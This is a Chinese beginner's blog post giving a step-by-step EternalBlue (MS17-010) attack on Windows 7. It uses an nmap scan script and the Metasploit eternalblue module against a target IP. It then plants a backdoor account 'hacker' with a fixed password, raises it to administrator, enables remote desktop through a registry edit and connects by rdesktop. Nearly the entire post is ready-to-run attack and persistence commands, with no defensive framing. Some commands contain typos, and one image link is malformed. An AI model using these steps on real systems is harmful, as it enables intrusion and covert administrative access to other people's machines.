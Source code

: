 ```yaml
---
layout:     post
title:      永恒之蓝漏洞拿win7最高权限
subtitle:   新手上路，内网win7永恒之蓝漏洞利用
date:       2019-3-18
author:     cjw
header-img: img/post-bg-re-vs-ng2.jpg
catalog: true
tags:
    - Blog
---
```


> 新手上路，大佬勿喷。

# 进入正题

## 1.进入nmap存放脚本的目录。

### 命令：cd /usr/share/nmap/scripts

updatedb

locate ms17-010

![](https://s2.ax1x.com/2019/03/18/An1eu8.png)

## 上图就是我们要利用的脚本

## 2.用脚本扫描你要攻击的目标ip

### 命令：nmap --scriput smb-vuln-ms17-010.nse ‘这里写目标ip’

![](https://s2.ax1x.com/2019/03/18/An1Vjf.png)

## 3.再开启一个终端运行msf工具。

### 命令：mafconsole

![](https://s2.ax1x.com/2019/03/18/An1k9I.png)

## 4.查询这个漏洞利用模块。

### 命令：search ms17-010

![](https://s2.ax1x.com/2019/03/18/An1EgP.png)

## 5.使用这个模块。

### 命令：use exploit/windows/smb/ms17_010_eternalblue

## 6.查看需要设置的参数。

### 命令：show options

![](https://s2.ax1x.com/2019/03/18/An1rgx.png)

## 7.设置远程目标的ip

### 命令：set rhost ‘这里写远程目标的ip’

## 8.再次查看参数设置。

### 命令：show options

![](https://s2.ax1x.com/2019/03/18/An1gbD.png)

## 9.启动。

### 命令：run

![](https://s2.ax1x.com/2019/03/18/An1oxP.png)

## 10.‘留后门’添加用户。

### 命令：net user hacker 123.com /add

## 查看用户是否添加成功。

### 命令：net user

![](https://s2.ax1x.com/2019/03/18/An1xGn.png)

## 11.给我们添加的用户提权。

### 命令:net localgroup administrators hacker /add

## 查看提权是否成功。

### 命令：net user hacker

![](net localgroup administrators hacker /add)

## 12.开起目标机器3389远程桌面服务端口。

### 命令：REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f

## 13.打开成功后再开启一个终端，链接远程桌面，

### 命令：rdesktop ‘你目标机的ip’

![](https://s2.ax1x.com/2019/03/19/An3dL8.png)

## 14.完成。

![](https://s2.ax1x.com/2019/03/19/An3bS1.png)






